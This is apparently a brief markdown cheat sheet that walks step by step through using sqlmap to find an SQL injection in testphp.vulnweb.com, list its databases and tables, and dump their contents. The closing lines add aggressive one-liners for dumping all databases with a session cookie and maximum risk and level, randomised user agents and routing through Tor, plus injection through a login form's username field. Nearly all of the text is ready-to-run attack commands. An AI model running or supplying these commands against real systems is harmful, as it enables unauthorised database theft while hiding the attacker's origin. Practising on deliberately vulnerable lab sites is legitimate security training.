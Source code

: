 



## Step 1

```sh
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1"
```

Result
- Vulneruble parameter
    - Type
    - Title
    - Payload
- back-end DBMS 
- Web application technology



## Step 2
```sh
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs
```

Result
- database names

At this moment check which databases are default in this DBMS, leave them and 
dump non-default databases.

MySQL default databases
- mysql 
- information_schema
- performance_schema
- sys


## Step 3
```sh
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D <db-name> --tables
```

Result
- tables names for <db-name>


## Step 4
```sh
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D <db-name> --dump
```

Result
- dump of <db-name>


## -------------------------------------------------------------
- sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D <db-name> --cookie="security=low; PHPSESSID=13o5hlkjs3hur2pvnfkgim9t74" --dump-all --batch --output-dir="db-dump" --random-agent --risk=3 --level=5 --tor
- sqlmap -u .../login --data "username=a&password=b" -p username --dump --output-dir="db-dump"
Upload File
